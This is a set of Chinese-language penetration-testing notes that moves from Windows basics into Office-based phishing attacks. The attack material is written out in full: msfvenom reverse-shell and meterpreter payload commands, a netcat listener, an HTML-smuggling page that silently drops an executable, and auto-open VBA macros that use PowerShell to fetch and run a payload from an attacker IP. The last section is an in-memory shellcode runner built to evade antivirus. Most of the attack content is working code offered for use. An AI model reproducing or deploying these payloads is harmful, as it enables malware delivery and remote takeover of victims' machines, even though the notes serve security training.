





# 操作系统和编程理论
# 编程理论
# 编程概念
类、方法、变量
public class MyClass
{
private int myNumber;
// constructor
public MyClass(int aNumber)
{
this.myNumber = aNumber;
}
public getNumber()
{
return myNumber;
}
}
# windows 概念
# Windows On Windows
大多数的 Windows 主机都是 64 位的，但有些应用程序还是 32 位的，为了完善这个问题，Windows 引入了 Windows on Windows 64 位（wow 64 位）机制，使得 64 位 Windows 可以几乎无损坏地执行 32 位程序
Linux64 位本身不支持 32 位应用程序
WOW64 利用四个 64 位库（Ntdll.dll、Wow64.dll、Wow64Win.dll 和 Wow64Cpu.dll）来模拟 32 位代码的执行，并在应用程序和内核之间执行转换。
在 32 位版本的 Windows 上，大多数本机 Windows 应用程序和库都存储在 C:\Windows\System32 中。在 64 位版本的 Windows 上，64 位本机程序和 DLL 存储在 C:\Windows\System32 中，32 位版本存储在 C:\Windows\SysWOW64 中。
作为渗透测试人员，我们必须始终了解 目标的架构或位数 ，因为这决定了我们可以使用的 shellcode 和其他编译代码的类型。
# Win32 API 接口
Windows 操作系统及其各种应用程序是用各种编程语言编写的，从汇编到 C#，但其中许多都使用 Windows 提供的内置应用程序编程接口（或 API）
这些接口称为 Win32 API，是为开发人员提供预构建的功能。API 本身设计为从 C 调用，并使用 C 样式的数据类型进行记录，它们也可以与多种其他语言一起使用。
一个简单的示例是 Advapi32.dll 导出的 GetUserNameA API，用于获取当前登录用户名，字母 "A" 表示这是 ANSI 版本的函数（相对应的还有 Unicode 版本 GetUserNameW ）。
BOOL GetUserNameA( | |
LPSTR lpBuffer, | |
LPDWORD pcbBuffer | |
); |
函数参数说明：
-
lpBuffer：指向一个字符缓冲区的指针，用于存储用户名 -
pcbBuffer： 指向一个 DWORD 的指针，用于指定缓冲区大小- 输入时：表示缓冲区的大小（以字符为单位）
- 输出时：如果缓冲区太小，会返回所需的缓冲区大小
-
BOOL：API 的返回值是布尔类型的
使用示例：
#include <windows.h> #include <stdio.h> int main() { char username[256]; DWORD size = sizeof(username); if (GetUserNameA(username, &size)) { printf("当前用户名: %s\n", username); } else { printf("获取用户名失败\n"); } return 0; }
当我们使用这些 API 时，我们必须牢记两个特定的细节。
-
必须确定进程是
32 位还是64 位，因为某些参数及其大小取决于位数。 -
必须区分
ASCII和Unicode的使用（Microsoft 有时将其称为 UTF-16）。由于 <u>ASCII 字符使用一个字节，而 Unicode 至少使用两个字节 </u>，因此许多 Win32 API 都提供两个不同的版本。
# Windows 注册表
我们将讨论注册表包含可能在攻击期间被滥用的重要信息，并且一些修改可能允许我们绕过特定的防御措施。
注册表实际上是一个数据库，它由大量具有关联值的键组成。这些键使用子键按层次结构排序。
与当前 用户 相关的信息存储在 HKEY_CURRENT_USER （HKCU） 配置单元中，而与 操作系统 本身相关的信息存储在 HKEY_LOCAL_MACHINE （HKLM） 配置单元中。
HKEY_CURRENT_USER 配置单元可由当前用户写入，而修改 HKEY_LOCAL_MACHINE 配置单元需要管理权限。
我们可以通过 Win32 API 以编程方式与注册表交互，也可以使用 Registry Editor （regedit） 等工具通过 GUI 方式进行查看

由于 64 位版本的 Windows 可以执行 32 位应用程序，因此每个注册表配置单元都包含一个名为 Wow6432Node 的重复部分，该部分存储相应的 32 位设置。
注册表作系统被各种应用程序广泛使用。作为渗透测试人员，我们可以从中获取各种侦察信息或修改它以改进攻击或执行规避。
# 3 使用 office 执行客户端代码
# 3.1 准备工作
# staged payload 和 Non-staged payloads
staged payloads 是分阶段执行的漏洞利用代码，体积较小，通常分为初始阶段和第二阶段。初始阶段主要用于建立连接和下载完整的 payload。占用的内存较小，并且可能可以规避一些防病毒程序
non-staged payloads 是整体的 payload，一次性包含所有功能，代码体积较大，适用于网络连接不稳定的场景。
Metasploit 是一个 payload 库，其中 windows/shell_reverse_tcp 是一个简单的 non-staged 的 payload。payload 实际上是一系列的汇编指令，执行时调用一些 Windows API，连接到攻击者的 C2 上；相对应的 windows/shell/reverse_tcp 则是一个 staged payload
# 创建 payload
攻击机上
msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.120 lport=444 -f exe -o /var/www/html/shell.exe |
sudo nc -lvnp 443 |
配合 msf 上线
#创建 payload | |
sudo msfvenom -p windows/x64/meterpreter/reverse_https | |
LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe |
#启动 msf | |
sudo msfconsole -q | |
use multi/handler | |
set payload windwos/x64/meterpreter/reverse_https | |
set lhost 192.168.19.120 | |
set lport 443 | |
exploit |
# HTML 走私（HTML Smuggling）
HTML 走私是一种技术，可以通过将恶意代码嵌入无害的 HTML 文件中来绕过安全防护措施。这种技术通常被用来绕过防火墙或安全检测系统。
例如，攻击者可以在电子邮件中嵌入链接。当受害者阅读电子邮件并访问网页时，JavaScript 代码将使用 HTML Smuggling 自动保存恶意文件。
此技术利用 HTML5 anchor 标签下载属性，该属性指示浏览器在用户单击分配的超链接时自动下载文件。
让我们通过在我们的 Kali Linux 机器的 Apache Server 上创建 HTML 文件来尝试一下。我们将创建一个简单的超链接，并设置下载属性锚标签：
<html> | |
<body> | |
<a href="/msfstaged.exe" download="msfstaged.exe">DownloadMe</a> | |
</body> | |
</html> |
尽管这样运行良好，但它暴露了拖放程序的文件名和扩展名，并且需要用户手动单击链接。为了避免这种情况，我们可以通过嵌入的 JavaScript 文件触发下载。该方法将文件作为八位字节流传输，将下载组装好的文件而无需用户交互。
Blob (Binary Large Object) 是一个代表二进制数据的对象，它可以存储大量的二进制数据。
var blob = new Blob([data], {type: 'octet/stream'}); |
具体来说:
-
Blob 对象表示一个不可变的、原始数据的类文件对象
-
这段代码创建了一个新的 Blob 对象:
- 第一个参数
[data]是一个数组，包含要存储的数据 - 第二个参数指定了 MIME 类型为 'octet/stream', 表示这是原始的二进制数据流
- 第一个参数
-
Blob 的常见用途包括:
-
文件下载 - 可以创建 URL 让用户下载数据
-
文件上传 - 可以处理用户上传的文件
-
存储大量数据 - 如图片、音频等多媒体文件
-
在网页中显示文件内容
-
它可以配合 URL.createObject() 方法用来创建 URL 文件对象，本质上是模拟了一个位于 Web 服务器上的文件，但是实际上是从内存中读取的
// 创建一个 url 文件对象 | |
var url = window.url.createobjecturl(blob); |
接着，我们可以使用 createElement 方法创建标签元素，并指名为 a，然后使用 appendChild () 方法来嵌入到 html 页面中。
首先将 display 设置为 none，确保它在页面上隐藏，接着设置 href 链接远程地址，最后再设置下载的文件名
// 1. 创建 a 标签元素 | |
var a = document.createElement('a'); | |
// 2. 将 a 标签添加到页面 body 中 | |
document.body.appendChild(a); | |
// 3. 设置 a 标签为隐藏 | |
a.style = 'display: none'; | |
// 4. 从 blob 创建 URL | |
var url = window.URL.createObjectURL(blob); | |
// 5. 设置链接地址 | |
a.href = url; | |
// 6. 设置下载的文件名 | |
a.download = fileName; |
a.click() 触发下载提示
a.click(); |
由于生成的恶意文件是二进制的，所以要先进行 base64编码 ，将编码后的数据放入 js 中，再通过函数进行解码就得到了原始的二进制数据流
//base64 解码 | |
function base64ToArrayBuffer(base64) | |
{ | |
var binary_string = window.atob(base64); | |
var len = binary_string.length; | |
var bytes = new Uint8Array( len ); | |
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } | |
return bytes.buffer; | |
} |
生成 payload 并编码
#生成 payload | |
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe | |
#base64 编码 | |
base64 /var/www/html/msfstaged.exe |
base64 编码后的数据，必须删除认可的换行符或空行，保证是一个完整的字符串
最后，将所有代码整合在一起
<html> | |
<body> | |
<script> | |
function base64ToArrayBuffer(base64) { | |
var binary_string = window.atob(base64); | |
var len = binary_string.length; | |
var bytes = new Uint8Array( len ); | |
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);} | |
return bytes.buffer; | |
} | |
var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA... | |
var data = base64ToArrayBuffer(file); | |
var blob = new Blob([data], {type: 'octet/stream'}); | |
var fileName = 'msfstaged.exe'; | |
var a = document.createElement('a'); | |
document.body.appendChild(a); | |
a.style = 'display: none'; | |
var url = window.URL.createObjectURL(blob); | |
a.href = url; | |
a.download = fileName; | |
a.click(); | |
window.URL.revokeObjectURL(url); | |
</script> | |
</body> | |
</html> |
部署页面完成后，我们用 chrome 浏览它，只需要浏览网页就会弹出框来触发下载

但由于不安全的文件格式，浏览器触发会警告

请注意，我们选择使用 Google Chrome 浏览 HTML 文件，因为它支持 window.url.createobjecturl。必须对此技术进行修改，以与 Internet Explorer 和 Microsoft Edge 等浏览器作用，不过经过测试 edge 和火狐浏览器也会触发下载
点击保留并运行后，目标机器就会上线。
# 3.2 配合 Microsoft office 进行钓鱼
# VBA 简介
看下这个例子
Sub Document_Open()
MyMacro
End Sub
Sub AutoOpen()
MyMacro
End Sub
Sub MyMacro()
Dim str As String '定义字符串变量
str = "cmd.exe" '将命令提示符路径存入变量
Shell str, vbHide '调用Shell命令启动程序
End Sub
结果是命令提示符会以隐藏窗口打开，可以用任务管理器验证
事件处理程序
Document_Open()- Word 文档打开时自动触发的事件AutoOpen()- Excel 工作簿打开时自动触发的事件
这些是 Office 内置的事件，类似其他编程语言的事件机制。在这里主要是为了确保兼容性。子程序的定义
' 代码内容Sub 表示这是一个子程序，可以被调用但不返回值。每个 Sub 都需要用 End Sub 结束。
变量声明和使用
Dim str As String '声明变量程序调用
Shell str, vbHide
- Shell 是 VBA 的内置函数，用于执行外部程序
- vbHide 是一个常量参数，表示隐藏运行窗口
也可以使用 Windows脚本对象(WSH) 来启动
Sub Document_Open() | |
MyMacro | |
End Sub | |
Sub AutoOpen() | |
MyMacro | |
End Sub | |
Sub MyMacro() | |
Dim str As String | |
str = "cmd.exe" | |
CreateObject("Wscript.Shell").Run str,0 ' 使用 WSH 启动 | |
End Sub |
这里涉及了几个重要的 VBA 概念:
CreateObject(): VBA 内置函数，用于创建 COM 对象，对象包含属性 (Properties) 和方法 (Methods)WScript.Shell: Windows 脚本宿主对象Run: WScript.Shell 对象的方法，用于运行程序参数0: 设置窗口显示方式 (0 表示隐藏窗口)
' 获取用户名和计算机名 | |
userName = Environ$("USERNAME") | |
computerName = Environ$("COMPUTERNAME") | |
' 获取系统目录 | |
windir = Environ$("windir") | |
' 获取用户文档目录 | |
userProfile = Environ$("USERPROFILE") |
Environ$函数的作用
- 用于获取 Windows 系统环境变量的值
- 语法格式为: Environ$("环境变量名")
- 返回值是字符串类型
# 配合 PowerShell 下载文件
PowerShell 可以使用 Net.WebClient 类，调用 DownloadFile 方法来下载外部文件
$url = "http://192.168.119.120/msfstaged.exe"; | |
$out = "msfstaged.exe" | |
$wc = New-Object Net.WebClient | |
$wc.DownloadFile($url, $out) |
也可以直接写成一行:
(New-Object Net.WebClient).DownloadFile("http://192.168.119.120/msfstaged.exe","msfstaged.exe") |
大多数 PowerShell 下载使用 http 或 https 协议，但也可以使用 TXT 记录或 DNS 传输
补充一下代码：
Dim str As String | |
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', | |
'msfstaged.exe')" | |
Shell str, vbHide |
下载后需要执行，执行需要绝对路径，可以使用 ActiveDocument.Path 获取路径名
Dim exePath As String | |
exePath = ActiveDocument.Path + "\msfstaged.exe" |
同时下载需要一些时间，为了确保下载完成后才执行，需要引入时间延迟，但 word 和 excel 没有自带的时间延迟函数，所以需要自定义
Sub Wait(n As Long) | |
Dim t As Date | |
t = Now | |
Do | |
DoEvents | |
Loop Until Now >= DateAdd("s", n, t) | |
End Sub |
完整的代码：
Sub Document_Open() | |
MyMacro | |
End Sub | |
Sub AutoOpen() | |
MyMacro | |
End Sub | |
Sub MyMacro() | |
Dim str As String | |
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe','msfstaged.exe')" | |
Shell str, vbHide | |
Dim exePath As String | |
exePath = ActiveDocument.Path + "\msfstaged.exe" | |
Wait (2) | |
Shell exePath, vbHide | |
End Sub | |
Sub Wait(n As Long) | |
Dim t As Date | |
t = Now | |
Do | |
DoEvents | |
Loop Until Now >= DateAdd("s", n, t) | |
End Sub |
使用
Invoke-WebRequest代替WebClient下载：
str = "powershell Invoke-WebRequest -Uri 'http://192.168.119.120/msfstaged.exe' -OutFile 'msfstaged.exe'"
# 3.3 以假乱真
# 3.4 在 word 内存中执行 shellcode
现在我们已经可以将恶意文件下载到目标的磁盘上了，但这会出现一个问题，将恶意文件直接存储在磁盘上，很可能会被杀毒软件查杀，所以，现在我们要开始学习在内存中来执行 staged payload
# 从 VBA 调用 Win32
Windows 操作系统 API（或 Win32 API）位于动态链接库中，并且以非托管代码运行。我们将使用 Declare 关键字在 VBA 中链接到这些 API，并提供函数的名称、所在的 DLL、参数类型和返回值类型。同时我们将使用 Private Declare ，这意味着这个函数只会在我们本地的代码中使用。
我们举的例子是 GetUserName 这个 API。MSDN 上包含了函数原型、用户名最大长度以及它所在的 DLL 等。
BOOL GetUserNameA( | |
LPSTR lpBuffer, | |
LPDWORD pcbBuffer | |
); |
MSDN 上的函数是用 c 语言进行描述的，我们要将其转换成 VBA。
最终的声明如下：
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal | |
lpBuffer As String, ByRef nSize As Long) As Long |
Declare 语句的基本组成：
Private ' 访问修饰符（可选） Declare ' 声明关键字（必须） PtrSafe ' 该关键字是为64位系统准备的 Function ' 函数类型（Function 或 Sub） GetUserName ' 你想用的函数名（可以自己取） Lib "advapi32" ' 指定 DLL 文件 Alias "GetUserNameA" ' 原始函数名（可选） (参数列表) ' 参数列表 As Long ' 返回类型（Function 必须有，Sub 没有）
对应的，我们需要声明三个变量：返回值、输出缓冲区和输出缓冲区的大小
MSDN 指定用户名的最大长度为 256 个字符，因此我们将创建一个名为 Mybuff 的 256 字节字符串和一个名为 Mysize 的长整型变量，并将其设置为 256。
Function MyMacro() | |
Dim res As Long | |
Dim MyBuff As String * 256 | |
Dim MySize As Long | |
MySize = 256 | |
res = GetUserName(MyBuff, MySize) | |
End Function |
为了获取实际用户名的长度，我们将用 InSrt 来获取终止符（null）的位置。
Function MyMacro() | |
Dim res As Long | |
Dim MyBuff As String * 256 | |
Dim MySize As Long | |
Dim strlen As Long | |
MySize = 256 | |
res = GetUserName(MyBuff, MySize) | |
strlen = InStr(1, MyBuff, vbNullChar) - 1 | |
MsgBox Left$(MyBuff, strlen) | |
End Function |
在字符串 MyBuff 中查找第一个空字符的位置，然后将该位置减去 1，得到的结果即为字符串的长度。
完整的代码：
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long | |
Sub Document_Open() | |
MyMacro | |
End Sub | |
Sub AutoOpen() | |
MyMacro | |
End Sub | |
Function MyMacro() | |
Dim res As Long | |
Dim MyBuff As String * 256 | |
Dim MySize As Long | |
Dim strlen As Long | |
MySize = 256 | |
res = GetUserName(MyBuff, MySize) | |
strlen = InStr(1, MyBuff, vbNullChar) - 1 | |
MsgBox Left$(MyBuff, strlen) | |
End Function |

# VBA Shellcode Runner
如何在内存中执行 shellcode 代码
典型方案需要使用 Kernel32.dll 中的三个 Win32 API： VirtualAlloc 、 RtlMoveMemory 、 CreateThread
实现步骤：
- VirtualAlloc：分配一个可写、可读、可执行的非托管地址
- RtlMoveMemory：将 shellcode 复制到新分配的内存中
- CreateThread：创建一个新的进程来执行 shellcode
# VirtualAlloc
函数原型：
LPVOID VirtualAlloc( | |
LPVOID lpAddress, // 内存分配地址 | |
SIZE_T dwSize, // 分配大小 | |
DWORD flAllocationType, // 分配类型 | |
DWORD flProtect // 内存保护标志 | |
); |
参数说明：
- lpAddress：内存分配的起始地址。设为 "0" 时，API 会自动选择位置
- dwSize：要分配的内存大小
- flAllocationType：分配的类型
- flProtect：内存保护属性
在 VBA 的函数声明：
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr |
我们还需要弄清楚一些值，比如 shellcode 的大小，我们先来生成它
使用 msfvenom 生成格式为 vbapplication 的 shellcode，作为第一阶段（属于 staged payloads）
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 | |
LPORT=443 EXITFUNC=thread -f vbapplication |

由于我们将在 Word 应用程序内执行我们的 shellcode，我们使用 “thread” 值来指定 EXITFUNC，而不使用默认值 “process”，以避免在 shellcode 退出时关闭 Microsoft Word。
输出结果是一个数组，将其添加到 VBA 代码中，接下来设置其他的参数：
-
lpAddress：内存分配的起始地址。我们将其设为 "0"，API 会自动选择位置 -
dwSize：要分配的内存大小。我们使用Ubound来获取包含 shellcode 的数组 (buf) 的大小 -
flAllocationType：分配的类型。我们使用&H3000（0x3000），它等同于 MEM_COMMIT 和 MEM_RESERVE 的类型标志- MEM_COMMIT: 分配物理内存并将其映射到进程的虚拟地址空间。
- MEM_RESERVE: 保留虚拟地址空间，但不分配物理内存。物理内存会在调用
MEM_COMMIT时分配。
-
flProtect：内存保护属性。设置为&H40（0x40），表示内存可读、可写和可执行
完整的 VirtualAlloc调用
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr | |
'....... | |
Dim buf As Variant | |
Dim addr As LongPtr | |
buf = Array(252,232,143,0,0,0,96,49,210,137,229,100,139,....) | |
addr = VirtualAlloc(0,Ubound(buf),&H3000,&H40) |
# RtlMoveMemory
现在我们已经使用 VirtualAlloc 分配了内存，接下来要利用 RtlMoveMemory 函数将 shellcode 字节复制到该内存位置。
RtlMoveMemory 函数原型为：
VOID RtlMoveMemory( | |
VOID UNALIGNED *Destination, // 目标内存地址 | |
VOID UNALIGNED *Source, // 源内存地址 | |
SIZE_T Length // 复制的字节长度 | |
); |
参数说明：
- Destination：目标指针，指向新分配的缓冲区。可以直接作为内存指针传递，VBA 类型可翻译为 LongPtr。
- Source：源指针，指向 shellcode 数组中的某个元素。必须通过引用传递，VBA 类型为 Any。
- Length：要复制的字节长度，按值传递，VBA 类型可翻译为 Long。
在 VBA 的函数声明：
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr |
完整的函数调用：
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr | |
'... | |
Dim counter As Long | |
Dim data As Long | |
For counter = Lbound(buf) To Ubound(buf) | |
data = buf(counter) | |
res = RtlMoveMemory(addr + counter,data,1) | |
Next counter |
代码解释：
For counter = LBound(buf) To UBound(buf)：这个循环从buf数组的下界（LBound(buf)）到上界（UBound(buf)）进行迭代。LBound和UBound函数分别返回数组的最小和最大索引。data = buf(counter)：在每次迭代中，data变量被赋值为buf数组中当前索引counter的元素。这意味着data将包含当前要复制的字节。res = RtlMoveMemory(addr + counter, data, 1)：调用RtlMoveMemory函数，将data中的一个字节（长度为 1）复制到内存地址addr + counter。这里，addr是目标内存的起始地址，counter用于计算当前字节在目标内存中的位置。
# CreateThread
将 shellcode 字节复制到可执行缓冲区后，我们准备使用 CreateThread 来执行它
CreateThread 函数原型
HANDLE CreateThread( | |
LPSECURITY_ATTRIBUTES lpThreadAttributes, // 线程安全属性 | |
SIZE_T dwStackSize, // 栈大小 | |
LPTHREAD_START_ROUTINE lpStartAddress, // 线程起始地址 | |
LPVOID lpParameter, // 传递给线程的参数 | |
DWORD dwCreationFlags, // 创建标志 | |
LPDWORD lpThreadId // 线程 ID | |
); |
参数解释：
- lpThreadAttributes：描述线程的安全属性。在不需要自定义安全属性时，可以设置为
0。在 VBA 中可翻译为Long。 - dwStackSize: 指定线程的栈大小。使用默认大小时，设置为
0。在 VBA 中可翻译为Long。 - <u>lpStartAddress</u>: 线程开始执行的代码地址。必须是 shellcode 缓冲区的地址。在 VBA 中可翻译为
LongPtr。 - lpParameter: 传递给线程的参数。如果不需要参数，可以设置为
0。在 VBA 中可翻译为LongPtr。 - dwCreationFlags: 线程创建标志。通常设置为
0，表示默认行为。 - lpThreadId: 用于接收线程 ID。可以设置为
0，如果不需要获取线程 ID
在使用 CreateThread 时，许多参数可以设置为 0 ，以简化调用。关键是确保 lpStartAddress 指向正确的代码地址，并正确翻译为 LongPtr 。
在 VBA 的函数声明：
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr |
调用这个函数非常简单，只需要设置 lpStartAddress 变量即可：
res = CreateThread(0, 0, addr, 0, 0, 0) |
# 完整代码
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr | |
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr | |
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr | |
Function MyMacro() | |
Dim buf As Variant | |
Dim addr As LongPtr | |
Dim counter As Long | |
Dim data As Long | |
Dim res As Long | |
buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, | |
12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, | |
193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, | |
227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, | |
214, 49, 255, 172, 193, _ | |
... | |
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, | |
104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, | |
114, 111, 106, 0, 83, 255, 213) | |
addr = VirtualAlloc(0, UBound(buf), &H3000, &H40) | |
For counter = LBound(buf) To UBound(buf) | |
data = buf(counter) | |
res = RtlMoveMemory(addr + counter, data, 1) | |
Next counter | |
res = CreateThread(0, 0, addr, 0, 0, 0) | |
End Function | |
Sub Document_Open() | |
MyMacro | |
End Sub | |
Sub AutoOpen() | |
MyMacro | |
End Sub |